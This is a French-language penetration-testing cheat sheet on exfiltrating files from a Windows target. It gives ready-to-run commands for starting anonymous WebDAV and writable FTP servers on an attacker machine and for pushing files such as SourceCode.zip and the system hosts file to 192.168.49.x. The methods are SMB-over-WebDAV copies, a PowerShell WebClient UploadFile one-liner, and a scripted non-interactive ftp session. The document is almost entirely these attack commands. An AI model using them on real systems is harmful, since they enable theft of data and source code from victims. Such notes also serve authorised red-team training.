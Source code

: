 ou
## SMB over HTTP UPLOADS (WebDAV)

## #BypassSmbRestriction

## Installer et lancer module python webdav

```shell
sudo pip3 install wsgidav cheroot
```

```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

## Connexion au partage depuis machine cible

```cmd
dir \\192.168.49.128\DavWWWRoot
```

## Upload des fichiers sur le partage

```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```


# FTP UPLOADS

## Monter partage avec python

```shell
sudo pip3 install pyftpdlib
```

```shell
sudo python3 -m pyftpdlib --port 21 --write
```

## Upload du fichier avec powershell

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Alternative

Créer fichier de commande si pas de shell interactif

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
